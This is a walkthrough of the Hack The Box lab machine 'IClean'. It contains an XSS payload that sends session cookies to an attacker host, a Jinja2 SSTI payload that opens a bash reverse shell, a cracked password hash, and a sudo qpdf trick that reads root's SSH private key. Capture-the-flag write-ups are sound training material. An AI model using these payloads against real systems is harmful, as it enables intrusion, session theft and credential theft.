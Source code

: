 # IClean

IClean is a medium machine on HTB.

## Enumeration

First we check the open port via **nmap**.

![nmap](./assets/images/nmap.png)


The ports 22, YOUR_PORT are open.
Let's check the port 80 first. For that we need to add the **domain** to our **hosts** file.

```bash
echo "10.10.11.12   capiclean.htb" | sudo tee -a /etc/hosts
```
![website](./assets/images/website.png)


This is what you should see after browsing to the domain. It seems like a basic website. Let's perform some **directory research**.

![gobuster](./assets/images/gobuster.png)

Plenty of things here. There is a **login** page but we don't have any creditentials. A **dashboard** page which we can access if you are login. So we must find something so we can login and access the **dashboard** page. The **quote** page seem interesting.

![quote_page](./assets/images/quote_page.png)

And if we enter valid input into the form and we submit it, we have this message of confirmation :

![sendMessage_page](./assets/images/sendMessage_page.png)

It is explicitly said that the management team will see our message. So we can try if it's vulnerable to **XSS**. For that intercept the request of the quote form.

![intercept_quote_form](./assets/images/intercept_quote_form.png)

Let's try it on the `service` variable. And we will use this payload (it's already URL encoded, juste change the IP and the port) : `<img+src%3dx+onerror%3dfetch("http%3a//YOUR_IP%3aYOUR_PORT/"%2bdocument.cookie)%3b>`. And don't forget to launch your python server :
```bash
python3 -m http.server YOUR_PORT
```

![cookie_xss](./assets/images/cookie_xss.png)

And after some time you should receive the cookie ! Now we can go to the storage tab when you inspect the website and add a new cookie named `session` and with the value you just got.

![inspect_storage](./assets/images/inspect_storage.png)

## Foothold

Now we can access the dashboard page !

![dashboard](./assets/images/dashboard.png)

We can see that we can generate invoice. Let's fill the form with valid input and submit it. 

![invoice_code](./assets/images/invoice_code.png)

It give us a code. Let's keep it for now. The next things we can do is to generate a qr code.

![generate_qr](./assets/images/generate_qr.png)

And for that we need an invoice id! Great we have one! So let's paste the one we just got.

![qr_link](./assets/images/qr_link.png)

It give us a link and if we put the link in the form and submit it, this page is displayed to us :

![invoice](./assets/images/invoice.png)

Great now let's intercept the request with burpsuite.

![intercept_qr_code](./assets/images/intercept_qr_code.png)

Now let's send this to the Repeater of burpsuite so we can do some test.

![server](./assets/images/server.png)

So the server is powered by Python so it's surely Flask and Flask use Jinja2. Which open the possibility of a SSTI vulnerability. You can see [this](https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/?source=post_page-----cfc46f351353--------------------------------) blog for complete explanation. And so we will use this payload to get a reverse shell (it's already URL encoded, just change YOUR_IP and YOUR_PORT) `{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("bash+-c+'exec+bash+-i+%26>/dev/tcp/YOUR_IP/YOUR_PORT+<%261'")|attr("read")()}}`. and put this in the `qr_link` variable in burpsuite. Don't forget to setup a netcat listener to.

## User flag

![revshell](./assets/images/revshell.png)

And we have a revshell ! As the user `www-data`. First stabilize the shell :

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
#CTRL + Z
stty raw -echo; fg
```


If we cat the `app.py` file in our directory we obtain a password for a database !

![cred_database](./assets/images/cred_database.png)

`iclean:pxCsmnGLckUb`, and so we can access the database with this command :

```bash
mysql -h localhost -u iclean -D capiclean -p
```
Inside the database we can find two hashes in the users tables !

![hash](./assets/images/hash.png)

So we can try to crack the hashes with `hashcat`. Paste the hash of the user `consuela` in a file and use this command :

```bash
hashcat -a 0 -m 1400 hash /usr/share/wordlists/rockyou.txt
```

Wait a little and hashcat as found the password : `simple and clean`. So we can try to login as consuela with this password.

![user_flag](./assets/images/user_flag.png)

## Root flag

If we type `sudo -l` we can see that we can use the command `/usr/bin/qpdf` as sudo. There is a vulnerability in `qpdf` that is we can attach file and display them after with the pdf we created. So we can attach the private key of root and login as root via ssh. First create a padf on your local machine.

```bash
convert -size 100x100 xc:white -annotate 0 'test' test.pdf
```

Launch a python server where the pdf is located and use this command on the remote machine to download the pdf file.

```bash
wget http://YOUR_IP:YOUR_PORT/test.pdf
```
After that use this command on the remote machine to attach the private key :

```bash
sudo /usr/bin/qpdf test.pdf --add-attachment /root/.ssh/id_rsa -- root_key.pdf
```

And this one to display the key : 

```bash
qpdf root_key.pdf --show-attachment=id_rsa
```

![id_rsa](./assets/images/id_rsa.png)

Copy paste it in a file on your local machine, give it the good right with `chmod 600` and login as root via shh.

![root_flag](./assets/images/root_flag.png)